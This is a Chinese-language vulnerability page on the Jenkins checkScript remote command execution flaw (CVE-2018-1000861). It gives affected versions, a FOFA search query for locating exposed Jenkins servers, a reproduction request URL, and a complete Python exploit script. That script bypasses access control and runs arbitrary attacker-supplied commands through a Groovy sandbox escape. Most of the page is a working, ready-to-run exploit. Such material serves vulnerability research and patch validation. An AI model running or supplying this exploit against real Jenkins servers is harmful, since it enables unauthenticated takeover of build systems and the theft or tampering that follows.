 ```yaml
---
Title: Jenkins checkScript 远程命令执行漏洞 CVE-2018-1000861
---
```


# Jenkins checkScript 远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

## 漏洞影响

<a-checkbox checked>Jenkins version < 2.138</a-checkbox></br>

<a-checkbox checked>Jenkins build time < 2019-01-28</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629513094370-fcc9d9e0-e71c-4e95-a197-b24f0bb85f2f-20220308153854558.png)

使用 EXP 执行命令

```python
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
```

![img](../../../.vuepress/public/img/1629516741232-11c547ef-0ec4-4e31-9825-60a14def0f6a-20220308153855142.png)

## 漏洞POC

<a-alert type="success" message="https://github.com/orangetw/awesome-jenkins-rce-2019" description="" showIcon>
</a-alert>

<br/>

```python
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 

import sys
import requests
from enum import Enum

# remove bad SSL warnings
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass


endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

class mode(Enum):
    ACL_PATCHED = 0
    NOT_JENKINS = 1
    READ_ENABLE = 2
    READ_BYPASS = 3
    ENTRY_NOTFOUND = 999

def usage():
    print '''
  Usage:
    python exp.py <url> <cmd>
    '''

def _log(msg, fail=False):
    nb = '[*]'
    if fail:
        nb = '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    return url + 'securityRealm/user/admin/'

def check(url):
    flag, accessible = mode.ACL_PATCHED, False

    # check ANONYMOUS_READ
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enable!')
    elif status == 403:
        _log('ANONYMOUS_READ disable!')

        # check ACL bypass, CVE-2018-1000861
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
    else:
        flag = mode.NOT_JENKINS

    # check entry point, CVE-2019-1003005
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)
        status, content = _get(url + endpoint)

        if status == 404:
            flag = mode.ENTRY_NOTFOUND

    return flag

def exploit(url, cmd):
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    params = {
        'sandbox': True, 
        'value': payload
    }

    status, content = _get(url + endpoint, params)
    if status == 200:
        _log('Exploit success!(it should be :P)')
    elif status == 405:
        _log('It seems Jenkins has patched the RCE gadget :(')
    else:
        _log('Exploit fail with HTTP status [%d]' % status, fail=True)
        if 'stack trace' in content:
            for _ in content.splitlines():
                if _.startswith('Caused:'):
                    _log(_, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    flag = check(url)
    if flag is mode.ACL_PATCHED:
        _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Is this Jenkins?', fail=True)
    elif flag is mode.READ_ENABLE:
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Bypass with CVE-2018-1000861!')
        exploit(_add_bypass(url), cmd)
    else:
        _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
```


